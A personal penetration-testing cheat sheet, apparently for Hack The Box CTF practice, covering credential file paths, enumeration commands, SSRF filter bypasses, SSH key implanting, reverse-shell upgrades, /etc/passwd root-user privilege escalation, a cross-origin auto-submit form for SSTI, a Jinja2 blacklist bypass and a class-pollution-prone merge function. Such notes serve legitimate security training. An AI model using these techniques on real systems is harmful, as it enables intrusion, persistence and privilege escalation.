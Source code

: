 # Table of Content
<!-- TOC -->

- [Table of Content](#table-of-content)
- [Useful stuff](#useful-stuff)
    - [Paths](#paths)
    - [Commands](#commands)
    - [Port Forwarding](#port-forwarding)
    - [Websites](#websites)
    - [Implanting SSH keys](#implanting-ssh-keys)
    - [Transferring files with SCP](#transferring-files-with-scp)
    - [Reverse Shell Upgrade](#reverse-shell-upgrade)
    - [Privilege Escalation](#privilege-escalation)
- [Notes from older exploits](#notes-from-older-exploits)
    - [CSS Injection](#css-injection)
    - [SSTI](#ssti)
        - [Cross Origin problems](#cross-origin-problems)
        - [Jinja2](#jinja2)
    - [Class Pollution](#class-pollution)

<!-- /TOC -->
# Useful stuff
## Paths
/etc/nginx/nginx.conf\
/etc/nginx/sites-enabled/(deafult)\
/etc/nginx/sites-available\
/etc/hosts\
$HOME/.shh/id_rsa\
/proc/self/environ\
/proc/self/cmdline\
/etc/shadow\
/etc/apache2/apache2.conf

Nella root della webApp:\
index.js/html\
main.js/html

## Commands
netstat -antp\
sudo -l\
whoami\
linpeas - WINpeas\
find / -perm -4000 2>/dev/null


Bypass ip filter or perform SSRF to localhost:
1. http://localtest.me
2. Append to url: .nip.io

ngrok tcp 80\
`dig` to resolve your tunnel hostname and use ip instead

## Port Forwarding
when you find a service on a machine running only locally you can forward it to your local port using: Esempio: [exploit.](../hack_the_box/htb_machines/sightless/writeup.md)
- when you already have ssh (user):\
`ssh -L 9090:localhost:8080 remote_user@host.htb`\
then visiting localhost:9090 you can access the service on host.htb:8080 (might need to add domain to /etc/hosts)
- when you dont have but a simple remote shell:\
`search chisel or others`


## Websites
bypass local security restriction: https://gtfobins.github.io/ \
payload: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md \
https://book.hacktricks.xyz/ \
intercept and modify requests, public endpoint:
- https://pipedream.com/requestbin 
- https://webhook.site/#!/view/36d22d40-393f-4680-a239-cf0d7488e238 
- https://testt.free.beeceptor.com

## Implanting SSH keys
`echo "Your SSH public key here (id_rsa.pub)" > /home/<user>/.ssh/authorized_keys`

## Transferring files with SCP
from destination to source:
`scp path_file_to_send dest_user@dest_ip:/path_to_receive`

from source to destination:
`scp dest_user@dest_ip:/path_to_receive files_received `

## Reverse Shell Upgrade
when you get a shell through nc, it's usually not possibile to use arrow keys so it's needed a "shell upgrade" as following:

    python3 -c 'import pty; pty.spawn("/bin/bash")' 
    ctrl + z 
    stty raw -echo; fg 
    Enter twice 
 
additionally: \
`export TERM=xterm`

additionally: (to fix terminal when writing very long payloads)\
`stty -a`  on own machine to read rows and columns values\
`stty rows ** columns **`  using same values seen on own machine

## Privilege Escalation

 - if you can modify perms of a file with sudo, you can create a symlink to passwd e grant yoursef perms to W and add a user with perms to root like "test::0:0:test:/root:/bin/bash".  Esempio: [exploit.](../hack_the_box/htb_challenges/web/NextPath/writeup.md)

# Notes from older exploits
bypass http blacklist filter with `dict://` `gopher://`
test antivirus or signature check using EICAR Files
    
## CSS Injection
when page header are set like font: None *
## SSTI
### Cross Origin problems
when trying to exploit it causing Cross Origin requests, the PREFLIGHT requests is automatically sent, that if not correctly handled might break the SSTI (even if AllowOrigin: *). To avoid sending the preflight use host a server that replies with the following:

```html
<html>
  <body>
    <form
      action="http://target/endpoint"
      method="POST"
      enctype="text/plain"
    >
      <input
        type="hidden"
        name='{"key_example": "value_example"'
        value='"}'
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Esempio: [exploit.](../hack_the_box/htb_challenges/web/TornadoService/writeup.md)

### Jinja2
bypass blacklisted character: https://ctf.zeyu2001.com/2022/securinets-ctf-finals-2022/strong \
using filter to get arguments from url or headers or form (if it is a post) which contains desidered blacklisted char\
example: https://github.com/Gianlush/Workspace_Ethical_Hacking/tree/main/hack_the_box/htb_challenges/web/DoxPit - `request|attr('args')|list|last`

Esempio: [exploit.](../hack_the_box/htb_challenges/web/DoxPit/writeup.md)

## Class Pollution 

```python
# Vulenrable function
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

Esempio: [exploit.](../hack_the_box/htb_challenges/web/TornadoService/writeup.md)
